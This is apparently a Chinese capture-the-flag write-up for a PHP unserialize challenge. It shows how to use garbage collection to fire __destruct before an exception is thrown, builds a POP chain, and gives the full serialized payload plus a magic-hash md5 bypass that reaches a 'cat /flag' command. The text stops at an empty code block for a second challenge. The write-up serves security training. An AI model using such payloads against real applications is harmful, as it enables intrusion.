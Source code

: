 ### 天命人
本题为反序列。  
反序列化能触发的魔术方法只有`__destruct`所以这里是入口，但是题目最后有`throw new Exception('开局一根棍，装备全靠打。');`，所以在反序列化后会抛出异常导致`__destruct`方法无法触发。   
```php
class Tianmingren {
    public $tianming;
    public $ren;
    function __destruct()
    {
        echo "迷途中的羔羊，你相信天命吗？<br>";
        echo $this->tianming;
    }
}
$data = unserialize($_POST['Wukong']);
throw new Exception('开局一根棍，装备全靠打。');
```
参考文章：
- [利用PHP垃圾回收机制构造POP链](https://blog.csdn.net/qq_45619909/article/details/122803600)  
- [浅析PHP GC垃圾回收机制及常见利用方式](https://xz.aliyun.com/t/11843?time__1311=Cq0xuD0DnD203GNem%3DQQwrhimvhbD&u_atoken=083c62927e4bb426f74c0cbd156e92d1&  u_asig=1a0c380917314189524301022e0040)

解决办法是使用`GC`回收机制提前触发`__destruct`:  对象为`NULL`时也是可以触发`__destruct`，所以我们可以反序列化一个数组，然后写入第一个索引为对象，将第二个赋值为0   
比如:  
```php
echo serialize(array($pop,null));

#运行的结果是
a:2:{i:0;O:11:"Tianmingren":2:{s:8:"tianming";N;s:3:"ren";N;}i:1;N;}
#我们修改下，把第二个索引置空
a:2:{i:0;O:11:"Tianmingren":2:{s:8:"tianming";N;s:3:"ren";N;}i:0;}
```
这样即可成功提前触发`__destruct`  

之后根据题目代码构建pop链:
```php

$pop->tianming=new Dinghaishenzhen;
$pop->tianming->yun=new Huoyanjinjing();
$pop->tianming->yun->huoyan=new Wuzhishan;

echo serialize(array($pop,null));
```
payload: 
```
Wukong=a:2:{i:0;O:11:"Tianmingren":2:{s:8:"tianming";O:15:"Dinghaishenzhen":2:{s:6:"Jindou";s:40:"一个筋斗能翻十万八千里！<br>";s:3:"yun";O:13:"Huoyanjinjing":2:{s:6:"huoyan";O:9:"Wuzhishan":3:{s:2:"wu";s:40:"俺老孙定要踏破这五指山！<br>";s:3:"zhi";N;s:4:"shan";N;}s:7:"jinjing";N;}}s:3:"ren";N;}i:0;}
```
上面的payload成功触发了Wuzhishan类的__get方法，接下来我们要绕过这个md5值比较，题目的要求换个说法就是: 一个值md5加密后和它本身相等 ，即双md5加密。  
在[](https://www.dr0n.top/posts/ad669f62/#%E5%8F%8CMD5)找到现成的值，挑一个，payload: `?J=0e00275209979`    
```php
echo "此地阴阳二气略显虚浮，加上刚刚带入的阳气，或可借此遁逃！<br>";
    $yin="s214587387a";
    $yang=$_GET['J'];
    if (md5($yin)==$yang&&md5($yin)==md5($yang)){
        echo "哦？又一个不信天命之人？行了，拿了东西速速离开吧<br>";
            ystem('cat /flag');
    }
```
传入得到flag  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241112220145.png)  
### ezserialize
题目关键代码如下：  
```php
```